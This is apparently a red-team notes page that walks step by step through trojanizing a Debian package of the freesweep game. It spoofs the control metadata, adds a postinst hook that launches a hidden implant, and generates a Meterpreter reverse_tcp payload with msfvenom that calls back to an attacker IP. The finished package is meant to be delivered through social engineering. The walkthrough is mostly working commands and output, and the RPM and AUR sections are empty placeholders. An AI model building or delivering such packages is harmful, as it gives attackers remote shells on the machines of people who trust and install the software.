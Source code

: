 ```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - weaponization
  - client-side-attacks
  - metasploit-framework
  - linux
---
```

# Trojanized Software Package

> [!TIP]
> While the target will install the backdoored software package with elevated privileges. You can include other vectors such as, elevated persistence.

## 01 - DEB

Create a temporary directory.

```
userware@hackware-os:~$ cd $(mktemp -d)
```

Download a DEB package. We will use `freesweep` as an example.

```
userware@hackware-os:/tmp/tmp.N7WqUfqiWd$ apt download freesweep

userware@hackware-os:/tmp/tmp.N7WqUfqiWd$ apt-get download freesweep
```

Extract the packing to a working directory then create a `DEBIAN` directory to include additional "features".

```
userware@hackware-os:/tmp/tmp.N7WqUfqiWd$ ls
freesweep_1.0.2-1_amd64.deb

userware@hackware-os:/tmp/tmp.N7WqUfqiWd$ dpkg -x freesweep_1.0.2-1_amd64.deb work

userware@hackware-os:/tmp/tmp.N7WqUfqiWd$ mkdir work/DEBIAN
```

> [!IMPORTANT]
> Do not skip this step.
> > [!TIP]
> > To copy the contents in `control` file then execute either `dpkg-deb -I file.deb` or `apt-cache show <package>` as reference.

In the `DEBIAN` directory, create a text file named `control` with the contents.

```
userware@hackware-os:/tmp/tmp.N7WqUfqiWd$ cat > work/DEBIAN/control << EOF
Package: freesweep
Architecture: amd64
Version: 1.0.2-1
Priority: optional
Section: universe/games
Origin: Ubuntu
Maintainer: Ubuntu Developers <ubuntu-devel-discuss@lists.ubuntu.com>
Original-Maintainer: Debian Games Team <pkg-games-devel@lists.alioth.debian.org>
Description: text-based minesweeper
 Freesweep is an implementation of the popular minesweeper game, where
 one tries to find all the mines without igniting any, based on hints given
 by the computer.  Unlike most implementations of this game, Freesweep
 works in any visual text display - in Linux console, in an xterm, and in
 most text-based terminals currently in use.
EOF
```

Then create a post-installation script (`postinst`) that will trigger the implant.

```
userware@hackware-os:/tmp/tmp.N7WqUfqiWd$ cat > work/DEBIAN/postinst << EOF
#!/bin/sh
sudo chmod 2755 /usr/games/freesweep_scores && /usr/games/freesweep_scores & /usr/games/freesweep &
EOF

userware@hackware-os:/tmp/tmp.N7WqUfqiWd$ chmod 755 work/DEBIAN/postinst
```

Generate an implant for a reverse connection.

```
userware@hackware-os:/tmp/tmp.N7WqUfqiWd$ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<attacker_IP> LPORT=<attacker_PORT> -f elf -o work/usr/games/freesweep_scores
```

Build the `.deb` package.

```
userware@hackware-os:/tmp/tmp.N7WqUfqiWd$ dpkg-deb -b work trojanized_freesweep.deb
dpkg-deb: building package 'freesweep' in 'trojanized_freesweep.deb'.
```

Run `lintian` to check if there any problems to the software package. We're only concerned about the post installation script (`postinst`) and the implant (`freesweep_scores`) if there was an error (`E`). For the implant's `statically-linked-binary` error message is safe to ignore. Now the implant is ready to deliver for social engineering.

```
userware@hackware-os:/tmp/tmp.N7WqUfqiWd$ lintian -c trojanized_freesweep.deb 
E: freesweep: bad-owner-for-doc-file userware/userware != root/root (or 0/0) [usr/share/doc/freesweep/README.md]
E: freesweep: bad-owner-for-doc-file userware/userware != root/root (or 0/0) [usr/share/doc/freesweep/]
E: freesweep: bad-owner-for-doc-file userware/userware != root/root (or 0/0) [usr/share/doc/freesweep/changelog.Debian.gz]
E: freesweep: bad-owner-for-doc-file ... use "--tag-display-limit 0" to see all (or pipe to a file/program)
E: freesweep: file-in-etc-not-marked-as-conffile [etc/sweeprc]
E: freesweep: mail-address-loops-or-bounces Maintainer ubuntu-devel-discuss@lists.ubuntu.com
E: freesweep: statically-linked-binary [usr/games/freesweep_scores]
E: freesweep: wrong-file-owner-uid-or-gid 1000/1000 [etc/]
E: freesweep: wrong-file-owner-uid-or-gid 1000/1000 [etc/sweeprc]
E: freesweep: wrong-file-owner-uid-or-gid 1000/1000 [usr/]
E: freesweep: wrong-file-owner-uid-or-gid ... use "--tag-display-limit 0" to see all (or pipe to a file/program)
W: freesweep: elevated-privileges 2755 userware/userware [usr/games/freesweep]
W: freesweep: maintainer-script-ignores-errors [postinst]
W: freesweep: no-manual-page [usr/games/freesweep_scores]
W: freesweep: non-standard-file-perm 0664 != 0644 [usr/games/freesweep_scores]
W: freesweep: undeclared-elf-prerequisites (libc.so.6 libncurses.so.6 libtinfo.so.6) [usr/games/freesweep]
W: freesweep: unknown-section universe/games
```

To execute the implant to retrieve a connection from the shell handler.

```
$ sudo dpkg -i trojanized_freesweep.deb

$ sudo apt install ./trojanized_freesweep.deb
```

## 02 - RPM

TODO: Fill in the steps for the RPM package.

```

```

## 03 - AUR

TODO: Fill in the steps for the AUR package.

```

```

---
## References

### Backlinks

- [[Package File Templates]]

### DMCXBlue

- [DMCXBlue: Installer Packages](https://dmcxblue.gitbook.io/red-team-notes-2-0/red-team-techniques/persistence/t1546-event-triggered-execution/installer-packages)

### Metasploit Unleashed

- [Metasploit Unleashed: Binary Linux Trojan](https://www.offsec.com/metasploit-unleashed/binary-linux-trojan/)